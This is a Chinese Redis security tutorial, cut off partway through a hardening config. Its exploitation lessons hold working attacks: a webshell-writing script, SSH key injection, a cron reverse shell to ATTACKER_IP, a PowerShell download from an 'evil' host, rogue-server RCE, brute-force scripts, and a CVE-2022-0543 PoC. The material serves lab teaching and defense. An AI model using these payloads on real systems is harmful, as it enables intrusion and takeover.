



# Redis 安全详解 —— 协议、利用、爆破、防御
---

## 📚 课程目录
| 课时 | 主题 | 时长 | 核心产出 |
| :---: | --- | :---: | --- |
| 第 1 课 | Redis 基础 + RESP 协议详解 | 60 min | 抓包看懂 Redis 通信 |
| 第 2 课 | 未授权访问利用：写文件 + RCE | 70 min | 4 种 RCE 方式实操 |
| 第 3 课 | 密码爆破 + CVE 漏洞 + Lua 沙箱 | 60 min | 复现 CVE-2022-0543 |
| 第 4 课 | 防御方案 + 应急响应 + 真实案例 | 50 min | 写出完整加固方案 |


> 🎯 **学完本课你应当能做到**：
>
> 1. 用 Wireshark 抓 Redis 流量，手写 RESP 报文
> 2. 通过 Redis 未授权访问完成 4 种 RCE
> 3. 写出对 Redis 的字典爆破脚本
> 4. 复现 CVE-2022-0543（Lua 沙箱逃逸）
> 5. 配置 Redis 加固方案（绑定 IP + 密码 + 最小权限 + ACL）
>

---

# 🗓️ 第 1 课 · Redis 基础 + RESP 协议详解
## 1.1 Redis 是什么？
**Redis (Remote Dictionary Server)** —— 内存型键值数据库。  
2009 年由 Salvatore Sanfilippo 开发，目前是 NoSQL 数据库的事实标准之一。
### 核心特征
| 特性 | 说明 |
| --- | --- |
| 内存存储 | 数据在 RAM，读写极快（10 万+ QPS） |
| 单线程 | 6.0 之前纯单线程，避免锁竞争 |
| 持久化 | RDB 快照 + AOF 日志两种方式 |
| 数据结构 | String / List / Hash / Set / ZSet / Stream / HyperLogLog / Geo |
| 端口 | 默认 6379 |
| 协议 | RESP (REdis Serialization Protocol) |


---

## 1.2 安装与启动
### Docker 方式（推荐靶场）
```bash
# 默认无密码（漏洞环境）
docker run -d --name redis-vuln -p 6379:6379 redis:5.0

# 带密码（安全配置）
docker run -d --name redis-secure -p 6380:6379 redis:7.0 redis-server --requirepass "StrongP@ss"
```

### macOS / Linux 直装
```bash
# Mac
brew install redis
brew services start redis

# Ubuntu
sudo apt install redis-server
sudo systemctl start redis
```

### 连接
```bash
# 本地无密码
redis-cli

# 远程带密码
redis-cli -h 192.168.1.10 -p 6379 -a "yourpassword"
# 或连接后用 AUTH
redis-cli -h 192.168.1.10
> AUTH yourpassword
```

---

## 1.3 基础命令（必背）
```plain
PING                  → PONG（连通测试）
INFO                  → 服务器信息（关键侦察命令）
CONFIG GET *          → 列出所有配置
CONFIG GET dir        → 查询数据目录
CONFIG GET dbfilename → 查询持久化文件名
CONFIG SET key value  → 修改配置
SET key value         → 写入
GET key               → 读取
DEL key               → 删除
KEYS *                → 列出所有 key（生产慎用）
FLUSHALL              → 清空所有数据（破坏性！）
SELECT 0-15           → 切换数据库（默认 16 个）
SAVE / BGSAVE         → 同步/异步持久化
SHUTDOWN              → 关闭 Redis（破坏性）
SLAVEOF host port     → 主从复制（RCE 关键命令）
MODULE LOAD path      → 加载模块（RCE 关键）
EVAL "Lua code"       → 执行 Lua 脚本
```

### 侦察命令清单（攻击前必做）
```plain
INFO                # 版本、内存、OS、架构
CONFIG GET *        # dir / dbfilename / bind / requirepass
CONFIG GET dir      # → 找可写目录
SELECT 0
DBSIZE              # 数据量
KEYS *              # 看看有什么数据
```

---

## 1.4 RESP 协议详解（核心）
### 什么是 RESP？
**RESP (REdis Serialization Protocol)** 是 Redis 客户端与服务端之间的通信协议。  
基于 TCP，默认端口 6379。

### RESP 数据类型
```plain
+Simple String   → +OK\r\n        （简单字符串，成功响应）
-Error           → -ERR msg\r\n   （错误）
:Integer         → :1000\r\n      （整数）
$Bulk String     → $5\r\nhello\r\n  （带长度的字符串，可含二进制）
*Array           → *3\r\n...       （数组，命令的形态）
```

### 一条命令的完整报文
执行 `SET name redis`：
```plain
*3\r\n$3\r\nSET\r\n$4\r\nname\r\n$5\r\nredis\r\n
```

逐部分拆解：
```plain
*3                     数组，3 个元素
$3                     第 1 元素长度 3
SET                    第 1 元素内容
$4                     第 2 元素长度 4
name                   第 2 元素内容
$5                     第 3 元素长度 5
redis                  第 3 元素内容
```

### 用 telnet / nc 验证
```bash
nc 127.0.0.1 6379
# 输入以下内容（手动键入，注意 \r\n）：
*1
$4
PING
# 返回：+PONG

*3
$3
SET
$4
name
$5
redis
# 返回：+OK

*2
$3
GET
$4
name
# 返回：$5\r\nredis
```

🎯 **核心理解**：  
Redis 协议极简，**所有命令本质都是字符数组**。  
服务端不验证身份，只看是不是合法 RESP 报文。  
这就是 SSRF 可以用 gopher 构造 Redis 报文的根本原因。

---

## 1.5 Wireshark 抓 Redis 流量
### 抓包
```bash
# 启动抓包
sudo tcpdump -i lo0 port 6379 -w redis.pcap

# 执行几个命令
redis-cli SET foo bar
redis-cli GET foo
```

### Wireshark 分析
打开 `redis.pcap` → Follow TCP Stream：
```plain
Client → Server:
*3
$3
SET
$3
foo
$3
bar

Server → Client:
+OK

Client → Server:
*2
$3
GET
$3
foo

Server → Client:
$3
bar
```

 🎯 **观察**：
 + Redis 不强制加密 → 明文传输
 + 没有握手 → 直接命令
 + 这就是为什么 Redis 暴露 0.0.0.0 极危险


---

## 1.6 RESP3（Redis 6.0+ 新协议）
Redis 6.0 引入 RESP3，向后兼容 RESP2。新增类型：

```plain
,    Double
#    Boolean
%    Map
~    Set
>    Push
(    Big Number
=    Verbatim String
```

但绝大多数利用方法基于 RESP2，新协议安全意义不大。

---

## 1.7 Redis 内联命令（Inline Command）
除了 RESP 数组，Redis 还支持**简单内联命令**：一行命令 + 回车。

```plain
PING
SET foo bar
GET foo
```

**用 nc 直接发**：
```bash
echo "PING" | nc 127.0.0.1 6379
echo "SET foo bar" | nc 127.0.0.1 6379
echo "GET foo" | nc 127.0.0.1 6379
```

**安全意义**：内联命令让 SSRF 攻击 Redis 更简单（不需要构造完整 RESP）。

---

## 1.8 模拟无密码 Redis 环境
```bash
# 启动带 SSH 的 Redis 靶场
docker run -d --name redis-target \
  -p 6379:6379 -p 22:22 \
  -e ROOT_PASSWORD=toor \
  vulhub/redis:5.0

# 或自建完整环境
docker run -d --name lab \
  -p 6379:6379 -p 22:22 -p 80:80 \
  -v /tmp/redis-test:/data \
  kali:latest
```

---

## 1.9 第 1 课小结
| 知识点 | 一句话 |
| --- | --- |
| Redis | 内存型 KV 数据库，默认 6379 |
| RESP 协议 | *N 数组 + $N 字符串 |
| 明文传输 | 无加密，无握手 |
| Inline 命令 | 单行命令也支持 |
| 侦察命令 | INFO / CONFIG GET * / KEYS * |
| 危险命令 | FLUSHALL / SHUTDOWN / SLAVEOF / MODULE LOAD |


### 课间实操（10 分钟）
1. 启动一个无密码 Redis，用 redis-cli 连接
2. 用 `nc` 直接发 `PING` / `SET foo bar` / `GET foo`
3. 用 tcpdump 抓包，Wireshark Follow TCP Stream 观察 RESP
4. 执行 `INFO` 看版本和 OS 信息

---

# 🗓️ 第 2 课 · 未授权访问利用：写文件 + RCE
## 2.1 Redis 未授权访问的本质


### 默认 redis.conf 危险配置
```plain
bind 0.0.0.0              ← 监听所有网卡（默认 127.0.0.1，但常被改）
protected-mode no          ← 关闭保护模式
requirepass ""             ← 无密码
dir ./                     ← 数据目录（可改）
dbfilename dump.rdb        ← 持久化文件名（可改）
```

🎯 **关键观察**：  
Redis 允许 CONFIG SET 修改数据目录和文件名！  
这意味着 Redis 进程**能写到任意它有权限的目录**。

---

## 2.2 利用 1：写 Webshell
### 原理
```plain
CONFIG SET dir /var/www/html           ← 改数据目录到 Web 根
CONFIG SET dbfilename shell.php        ← 改文件名为 .php
SET x "<?php @eval(\$_POST['cmd']);?>" ← 写入 PHP 代码
SAVE                                    ← 触发持久化
```

→ `/var/www/html/shell.php` 生成，里面含一句话木马。

### 完整实操
```bash
# 准备靶场（Redis + Apache + PHP）
docker run -d --name web-redis -p 6379:6379 -p 80:80 \
  -v /tmp/www:/var/www/html \
  webdevops/php-apache:7.4

# 启动 Redis（在容器内）
docker exec web-redis redis-server --daemonize yes

# 攻击
redis-cli -h 127.0.0.1
> CONFIG SET dir /var/www/html
> CONFIG SET dbfilename shell.php
> SET x "<?php @eval(\$_POST['cmd']);?>"
> SAVE
> EXIT

# 验证 webshell
curl -d 'cmd=phpinfo();' http://127.0.0.1/shell.php
```

### 注意事项
```plain
1. 数据库内容必须是有效 PHP
   → 残留的 Redis 键值可能破坏 PHP 语法
   → 解决：先 FLUSHALL 再操作

2. 文件权限
   → Redis 进程必须有 web 目录的写权限

3. PHP 版本
   → PHP 7+ 不影响一句话工作
   → disable_functions 可能禁用 system/eval
```

---

## 2.3 利用 2：写 SSH 公钥（root 登录）
### 原理
```plain
1. 攻击者生成 RSA 密钥对
2. 把公钥写入 /root/.ssh/authorized_keys
3. 用私钥 SSH 登录 → 免密 root
```

### 操作流程
```bash
# 步骤 1：生成密钥
ssh-keygen -t rsa -f /tmp/redis_rsa -N ""

# 步骤 2：构造 Payload
(echo -e "\n\n"; cat /tmp/redis_rsa.pub; echo -e "\n\n") > /tmp/pub.txt

# 步骤 3：写入 Redis
cat /tmp/pub.txt | redis-cli -h target -x SET sshkey

# 步骤 4：写入 authorized_keys
redis-cli -h target
> CONFIG SET dir /root/.ssh/
> CONFIG SET dbfilename authorized_keys
> SAVE

# 步骤 5：SSH 免密登录
ssh -i /tmp/redis_rsa root@target
```

### 关键技巧
```plain
为什么 payload 前后要 \n\n？
  → Redis RDB 文件有头部和尾部二进制内容
  → SSH 会忽略 authorized_keys 中无法识别的行
  → 但需保证公钥前后有换行，否则会和别的字符粘在一起
```

---

## 2.4 利用 3：写计划任务（反弹 shell）
### 原理
```plain
Linux cron 自动执行：
  /var/spool/cron/<username>     ← 用户级 cron
  /etc/cron.d/<name>             ← 系统级 cron
  /etc/crontab                   ← 主 cron 配置
```

### Payload
```bash
redis-cli -h target
> SET x "\n\n*/1 * * * * bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\n\n"
> CONFIG SET dir /var/spool/cron
> CONFIG SET dbfilename root
> SAVE
```

### 监听
```bash
nc -lvnp 4444
# 等待 1 分钟，cron 执行 → 拿到反弹 shell
```

### 不同发行版的 cron 路径
```plain
CentOS / RHEL：   /var/spool/cron/<user>
Ubuntu / Debian： /var/spool/cron/crontabs/<user>
通用：             /etc/cron.d/<name>
```

### 限制
```plain
1. Redis 二进制残留会破坏 cron 解析
   → payload 前后必须有大量 \n
2. CentOS 兼容性好，Debian 较严
3. 需要 cron 服务运行
```

---

## 2.5 利用 4：主从复制 RCE（最强大）
### 原理


### 工具：redis-rogue-server
```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
cd redis-rogue-server

# 先编译模块
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
cd RedisModules-ExecuteCommand
make
cp module.so ../

# 攻击
python3 redis-rogue-server.py --rhost TARGET_IP --rport 6379 --lhost ATTACKER_IP
```

### 交互模式
```plain
[*] Connecting to  target:6379
[*] Sending SLAVEOF command
[+] SLAVEOF succeeded
[*] Setting dbfilename
[*] Listening on attacker:6379
[*] Connection from target
[*] Full resync accepted
[*] Sending module
[+] Module uploaded
[*] Loading module
[+] Module loaded

> system.exec id
uid=0(root) gid=0(root) groups=0(root)
```

### 优势对比
| 方法 | 限制 | 适用 |
| --- | --- | --- |
| 写 webshell | 需 Web 目录 + PHP | 有 Web 服务时 |
| 写 SSH Key | 需 /root/.ssh/ 可写 | root 权限 Redis |
| 写 cron | CentOS 兼容好 | cron 运行 |
| 主从复制 RCE | **几乎无限制** | Redis ≥ 4.x |


---

## 2.6 利用 5：Windows Redis 特有
### 写启动项
```plain
CONFIG SET dir C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup
CONFIG SET dbfilename bat.bat
SET x "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://evil/payload.ps1')"
SAVE
```

### 写 MOF（旧 Windows）
```plain
CONFIG SET dir c:/windows/system32/wbem/mof/
CONFIG SET dbfilename test.mof
```

MOF 是 Windows WMI 管理规范文件，可被自动执行。

---

## 2.7 完整攻击链：自动化脚本
```python
# redis_exploit.py
import socket, sys, time

def send_cmd(sock, cmd):
    sock.send((cmd + "\r\n").encode())
    time.sleep(0.1)
    return sock.recv(4096).decode(errors="ignore")

def exploit_webshell(host, port, web_path):
    s = socket.socket()
    s.connect((host, port))
    print(send_cmd(s, "FLUSHALL"))
    print(send_cmd(s, f'CONFIG SET dir {web_path}'))
    print(send_cmd(s, 'CONFIG SET dbfilename shell.php'))
    payload = '"<?php @eval($_POST[\'cmd\']);?>"'
    print(send_cmd(s, f'SET x {payload}'))
    print(send_cmd(s, "SAVE"))
    s.close()
    print(f"[+] Done: http://{host}/shell.php")

if __name__ == "__main__":
    exploit_webshell(sys.argv[1], 6379, "/var/www/html")
```

---

## 2.8 利用前的侦察 checklist
```plain
□ INFO              版本（决定能否用 MODULE LOAD）
□ CONFIG GET dir    当前数据目录权限
□ CONFIG GET *      看完整配置
□ CONFIG GET requirepass   是否有密码
□ SELECT 0          切换数据库
□ DBSIZE            数据量
□ KEYS *            是否有敏感数据
```

### Redis 4.x vs 5.x+ 区别
| 版本 | 关键差异 |
| --- | --- |
| 4.0+ | 引入 MODULE（主从复制 RCE 可用） |
| 6.0+ | ACL（细粒度权限） |
| 6.0+ | RESP3 协议 |
| 6.2+ | CONFIG SET 部分被禁 |
| 7.0+ | 默认 protected-mode 严格 |


---

## 2.9 第 2 课小结
| 利用方式 | 关键命令 | 适用场景 |
| --- | --- | --- |
| 写 Webshell | CONFIG SET dir → SAVE | 有 Web + PHP |
| 写 SSH Key | CONFIG SET dir /root/.ssh | root 权限 Redis |
| 写 Cron | CONFIG SET dir /var/spool/cron | Linux + cron |
| 主从复制 RCE | SLAVEOF + MODULE LOAD | Redis ≥ 4.x |
| Windows 启动项 | CONFIG SET dir Startup | Windows |
| MOF | CONFIG SET dir wbem/mof | 旧 Windows |


### 4 种 RCE 推荐路径
```plain
Linux root：    SSH Key → cron → 主从复制
Linux www：     Webshell → 主从复制
Windows：       启动项 → MOF
```

### 课间实操（15 分钟）
1. 启动 web-redis 容器，完成写 webshell + 蚁剑连接
2. 启动纯 Redis 容器，写 SSH Key 实现 SSH 登录
3. 用 redis-rogue-server 完成主从复制 RCE
4. 监听 nc，写 cron 反弹 shell

---

# 🗓️ 第 3 课 · 密码爆破 + CVE 漏洞 + Lua 沙箱
## 3.1 Redis 密码认证机制
### requirepass 配置
```nginx
# redis.conf
requirepass YourStrongPassword
```

连接后必须 `AUTH password` 才能执行命令。

### 认证流程


### 关键问题
```plain
1. 密码是单因子（无账号概念）
2. 明文传输（无 TLS 时）
3. AUTH 命令可被多次尝试（默认无锁定）
4. 高 QPS → 爆破效率极高
```

---

## 3.2 用 redis-cli 爆破
```bash
# 单密码尝试
redis-cli -h target -p 6379 -a "password123" PING

# 字典爆破（shell 循环）
while read pass; do
  if redis-cli -h target -p 6379 -a "$pass" PING 2>/dev/null | grep -q PONG; then
    echo "[+] FOUND: $pass"
    break
  fi
done < passwords.txt
```

---

## 3.3 Python 爆破脚本
```python
# redis_brute.py
import socket, sys
from concurrent.futures import ThreadPoolExecutor, as_completed

def try_password(host, port, password, timeout=3):
    try:
        s = socket.socket()
        s.settimeout(timeout)
        s.connect((host, port))
        # 发送 AUTH
        s.send(f"AUTH {password}\r\n".encode())
        resp = s.recv(1024).decode(errors="ignore")
        s.close()
        if "+OK" in resp:
            return password
    except:
        pass
    return None

def brute(host, port, wordlist, threads=10):
    with open(wordlist) as f:
        passwords = [line.strip() for line in f if line.strip()]

    found = []
    with ThreadPoolExecutor(max_workers=threads) as ex:
        futures = {ex.submit(try_password, host, port, p): p for p in passwords}
        for f in as_completed(futures):
            result = f.result()
            if result:
                print(f"\n[+] FOUND: {result}")
                found.append(result)
                break  # 找到一个就停
    return found

if __name__ == "__main__":
    host = sys.argv[1]
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 6379
    wordlist = sys.argv[3] if len(sys.argv) > 3 else "passwords.txt"
    brute(host, port, wordlist)
```

### 字典推荐
```bash
# 弱密码 Top 20
redis
password
123456
admin
root
default
test
1234
12345
1234567890
qwerty
letmein
welcome
111111
abc123
passw0rd
P@ssw0rd
redis123
Redis@2019
redis@123
```

---

## 3.4 hydra 爆破 Redis
```bash
# Redis 协议支持
hydra -L users.txt -P passwords.txt -s 6379 redis://target

# 由于 Redis 无用户名概念，可忽略 -L
hydra -P passwords.txt -s 6379 redis://target
```

---

## 3.5 Medusa 爆破
```bash
medusa -h target -u "" -P passwords.txt -M redis
```

---

## 3.6 爆破的检测与防御
### 异常特征
```plain
- 短时间内大量 AUTH 命令
- 大量 -ERR invalid password 响应
- 同一 IP 高频连接
```

### Redis 自身防御
```nginx
# 限速（Redis 7+ 有限速配置）
slowlog-log-slower-than 10000

# 但 Redis 本身没有"密码错误锁定"
# 必须靠：网络层 + 强密码 + fail2ban
```

### 网络层防御
```bash
# iptables 限制单 IP 连接速率
iptables -A INPUT -p tcp --dport 6379 -m state --state NEW -m recent --set
iptables -A INPUT -p tcp --dport 6379 -m state --state NEW -m recent --update --seconds 60 --hitcount 20 -j DROP
```

---

## 3.7 CVE-2022-0543：Lua 沙箱逃逸（必学）
### 漏洞背景
+ **影响**：Debian / Ubuntu 源里的 Redis 2.2 ~ 5.x / 6.x / 7.x
+ **原因**：Debian 打包时引入了 Lua 5.1，但 package.cpath 泄露
+ **CVE**：CVE-2022-0543
+ **CVSS**：10.0（满分）

### 利用 PoC
```lua
EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

返回：

```plain
"uid=0(root) gid=0(root) groups=0(root)\n"
```

### 原理详解
```plain
1. Redis 嵌入 Lua 解释器，执行 EVAL/EVALSHA
2. Lua 沙箱本应禁用 io / os 等危险模块
3. Debian 打包脚本失误，未清除 package.loadlib
4. 攻击者通过 package.loadlib 加载 liblua5.1.so
5. 用加载的 io.popen 执行任意命令
```

### 复现靶场
```bash
# vulhub
cd vulhub/redis/CVE-2022-0543
docker-compose up -d

# 利用
redis-cli -h target
> EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

### 修复
```plain
Debian/Ubuntu 升级到安全版本：
  apt update && apt upgrade redis
```

---

## 3.8 其他 Redis CVE
### CVE-2015-4335（旧）
+ 主从复制 RCE 早期变种
+ Lua sandbox 也可绕过

### CVE-2018-12326（Redis 4.0+/5.0）
+ DEBUG DIGEST 客户端崩溃

### CVE-2023-25155
+ Lua 脚本中的字符串格式化栈溢出
+ 影响 Redis < 7.0.10

### CVE-2023-28856
+ HRANDFIELD / ZRANDMEMBER 内存泄漏
+ 影响 Redis < 7.0.11

### 防御建议
```plain
1. 关注 Redis 官方公告：https://github.com/redis/redis/security
2. 及时升级到最新稳定版
3. 关闭 DEBUG 命令：rename-command DEBUG ""
```

---

## 3.9 Lua 沙箱常规绕过思路
### 标准 Lua 沙箱
```c
// Redis 源码中的 Lua 初始化
luaopen_base(L);
luaopen_table(L);
luaopen_string(L);
luaopen_math(L);
luaopen_debug(L);
// 不加载 io / os / loadfile / dofile
```

### 历史绕过方法
#### 方法 1：使用 debug.getinfo
```lua
-- 获取函数信息泄露内存
debug.getinfo(...)
```

#### 方法 2：利用 string.dump + load
```lua
-- 反序列化任意 Lua bytecode
load(string.dump(...))
```

#### 方法 3：CVE-2022-0543 的 loadlib
```lua
package.loadlib("/usr/lib/liblua5.1.so", "luaopen_io")()
```

#### 方法 4：魔术字符串
```lua
-- 通过位运算和 string.char 构造命令
s = string.char(105, 100)  -- "id"
```

---

## 3.10 EVAL 执行任意 Lua
### EVAL 语法
```plain
EVAL script numkeys key [key ...] arg [arg ...]
```

### 示例
```lua
-- 计算 1+1
EVAL "return 1+1" 0

-- 读 Redis 数据
EVAL "return redis.call('GET', KEYS[1])" 1 foo

-- 条件执行
EVAL "if redis.call('GET',KEYS[1])=='admin' then return 'ok' else return 'no' end" 1 user
```

### 危险性
```plain
EVAL 本身是设计功能，但配合沙箱逃逸 → RCE
即使沙箱有效，EVAL 也可用于：
  - 拒绝服务：死循环
  - 数据泄露：读所有 key
  - 缓存投毒：批量改值
```

---

## 3.11 第 3 课小结
| 知识点 | 一句话 |
| --- | --- |
| AUTH 机制 | 单密码，无锁定 |
| 爆破工具 | redis-cli / Python / hydra / medusa |
| 爆破防御 | 强密码 + iptables 限速 + fail2ban |
| CVE-2022-0543 | Debian Lua 沙箱逃逸，CVSS 10.0 |
| CVE 修复 | 升级到最新稳定版 |
| EVAL | Lua 脚本，配合沙箱逃逸 RCE |
| 沙箱绕过 | package.loadlib / debug.getinfo / string.dump |


### 课间实操（15 分钟）
1. 给 Redis 设密码，用 Python 脚本爆破
2. 用 hydra 爆破自建靶场
3. vulhub 启动 CVE-2022-0543，复现 RCE
4. 用 EVAL 执行 `return 1+1` 理解脚本执行

---

# 🗓️ 第 4 课 · 防御方案 + 应急响应 + 真实案例
## 4.1 Redis 安全加固清单


---

## 4.2 网络层加固
### 1. bind 配置
```nginx
# redis.conf
bind 127.0.0.1                              ← 仅本地
bind 127.0.0.1 192.168.1.100                ← 本地 + 内网特定 IP
# bind 0.0.0.0  ← 绝对禁止！
```

### 2. protected-mode
```nginx
protected-mode yes
```

开启后，如果 Redis 检测到：

+ 没设密码
+ bind 不是 127.0.0.1
+ 监听到非回环地址

→ 只接受 127.0.0.1 连接 + 发送警告。

### 3. 防火墙 / 安全组
```bash
# iptables
iptables -A INPUT -p tcp --dport 6379 -s 192.168.1.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 6379 -j DROP

# 云安全组
仅允许应用服务器 IP 访问 6379
```

### 4. VPC 隔离
```plain
应用层    192.168.10.0/24
数据层    192.168.20.0/24  ← Redis / MySQL
不同子网 → 安全组隔离
```

### 5. 改默认端口
```nginx
port 16379    ← 改为非默认
```

> ⚠️ 改端口不是真正的安全防御，只是降低被扫到的概率。
>

---

## 4.3 认证层加固
### 1. requirepass
```nginx
requirepass "YourVeryStrongRandomPasswordHere"
```

密码要求：

+ 长度 ≥ 32 字符
+ 随机生成（`openssl rand -base64 32`）
+ 定期更换
+ 不要硬编码到 git 仓库

### 2. ACL（Redis 6.0+）
```nginx
# 创建只读用户
ACL SETUSER readonly_user on >password ~* +@read -@write -@dangerous

# 创建特定前缀用户
ACL SETUSER session_user on >password ~session:* +@write +@read

# 默认用户禁用
ACL SETUSER default off
```

### ACL 字段说明
```plain
on               启用
>password        密码
~pattern         可访问的 key 模式
+@category       允许的命令类别
-category       禁止的命令类别
+command         允许特定命令
-command         禁止特定命令
```

### 命令类别
```plain
@read            读类命令
@write           写类命令
@connection      连接类（PING/AUTH/SELECT）
@admin           管理类（CONFIG/SHUTDOWN）
@dangerous       危险类（FLUSHALL/CONFIG）
@keyspace        keyspace 操作
```

---

## 4.4 权限层加固
### 用低权限用户运行 Redis
```bash
# 创建专用用户
useradd -r -s /sbin/nologin redis

# 配置 systemd
cat > /etc/systemd/system/redis.service <<'EOF'
[Unit]
Description=Redis
After=network.target

[Service]
User=redis
Group=redis
ExecStart=/usr/bin/redis-server /etc/redis/redis.conf
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable redis
systemctl start redis
```

### 关键目录权限
```plain
/etc/redis/        redis:redis  750
/var/lib/redis/    redis:redis  700
/var/log/redis/    redis:redis  750
```

→ 即使被入侵，攻击者也读不到 /root/.ssh/

---

## 4.5 配置层加固
### 1. rename-command（禁用危险命令）
```nginx
rename-command CONFIG ""         ← 完全禁用 CONFIG
rename-command FLUSHALL ""
rename-command FLUSHDB ""
rename-command SHUTDOWN ""
rename-command DEBUG ""
rename-command KEYS ""           ← 防止 KEYS * 阻塞
rename-command SLAVEOF ""        ← 防止主从复制 RCE
rename-command MODULE ""         ← 防止模块加载
```

### 2. 禁用 CONFIG（重点）
```nginx
rename-command CONFIG b840fc02d524045429941cc15f59e41cb7be6c52
```

把 CONFIG 重命名为长随机字符串，攻击者猜不到。

### 3. 限制内存
```nginx
maxmemory 1gb
maxmemory-policy allkeys-lru
```

防止 OOM 攻击。

### 4. 关闭不必要功能
```nginx
notify-keyspace-events ""    ← 关闭键空间通知（防泄露）
```

---

## 4.6 加密层加固（TLS）
### Redis 6.0+ 原生 TLS
```nginx
# redis.conf
port 0                       ← 关闭明文端口
tls-port 6379
tls-cert-file /etc/redis/redis.crt
tls-key-file /etc/redis/redis.key
tls-ca-cert-file /etc/redis/ca.crt
tls-auth-clients yes         ← 客户端也要证书
```

### 生成自签证书
```bash
openssl req -x509 -newkey rsa:2048 \
  -keyout redis.key -out redis.crt \
  -days 365 -nodes -subj "/CN=redis"
```

---

## 4.7 更新层加固
### 关注 CVE
```plain
- Redis 官方安全公告：https://github.com/redis/redis/security
- 订阅 redis-announce 邮件列表
- Debian/Ubuntu 安全更新跟踪
```

### 升级路径
```plain
Redis 4.x → 5.x → 6.x（ACL）→ 7.x（推荐）
```

升级前必须测试兼容性，特别是：

+ 持久化格式变化
+ 集群协议
+ 配置项废弃

---

## 4.8 监控层加固
### Slow Log（慢查询）
```nginx
slowlog-log-slower-than 10000   ← 10ms
slowlog-max-len 128
```

查看：

```plain
SLOWLOG GET 10
```

### 命令审计
```nginx
# Redis 6.2+
latency-monitor-threshold 100
```

### 外部监控
```plain
Prometheus + redis_exporter
  - 连接数
  - 命令统计
  - 内存使用
  - 错误率

Grafana + 报警规则
  - 单 IP 连接 > 50 报警
  - 命令错误率 > 5% 报警
  - 内存 > 80% 报警
```

### 日志
```nginx
logfile /var/log/redis/redis-server.log
loglevel notice
```

---

## 4.9 完整加固配置示例
```nginx
# redis-secure.conf

# 网络
bind 127.0.0.1 192.168.1.100
protected-mode yes
port 0
tls-port 6379
tls-cert-file /etc/redis/redis.crt
tls-key-file /etc/redis/redis.key
tls-ca-cert-file /etc/redis/ca.crt
tls-auth-clients yes

# 认证
